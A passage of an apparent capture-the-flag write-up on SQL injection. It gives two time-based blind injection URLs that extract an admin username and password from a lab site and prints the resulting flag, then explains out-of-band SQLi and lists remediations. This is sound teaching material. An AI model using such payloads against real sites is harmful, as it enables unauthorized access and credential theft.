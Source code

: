 Enumerate username `admin` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM users WHERE username LIKE 'admin';--
```

Enumerate password `4961` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM users WHERE username = 'admin' AND password LIKE '4961%';--
```
Logging in with the credentials `admin:4961` we acquire the flag: `THM{SQL_INJECTION_MASTER}`

## Out-of-Band SQLi
Out-of-band SQLi is a type of SQL injection where the attacker does not receive a response from the attacked web application on the same communication channel but instead is able to cause the application to send data to a remote endpoint. An out-of-band attack is classified by having two communication channels: one to launch the attack and one to gather the results.

The general process of out-of-band SQLi follows these steps:
1. An attacker makes a request to a web application vulnerable to SQL injection with an injection payload.
2. The web application makes an SQL query to the database which also passes along the attacker's payload to the SQL server.
3. The payload contains a request which forces an HTTP (or DNS) request back to the attackers machine containing data from the database.

Out-of-band SQLi are not considered to be common in practice.

## SQLi Remediation
The following are some common remediation actions which can be put in place as remediation measures against SQLi:

1. **Prepared Statements (with Parameterized Queries)** - In a prepared statement, the developer writes an SQL query first and then adds any user inputs as a parameter afterwards. Writing prepared statements ensures that the SQL code structure doesn't change and the database can distinguish between the query and the data.

2. **Input Validation** - Syntactic validation of user input can significantly help in mitigating SQLi. Employing an allow (white) list can restrict input to only certain characters or strings. String replacement method in the various programming languages can filter the characters a developer wishes to allow or disallow.

3. **Escaping User Input** - Allowing user inputs to contain characters such as `' " $ \` can cause SQL queries to break and even lead to injection attacks. Escaping user input is a method of prepending a backslash (`\`) to these characters which causes them to be parsed just as a regular string and not as a special character in an SQL query.

Additional information on SQL injection prevention can be found at [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).
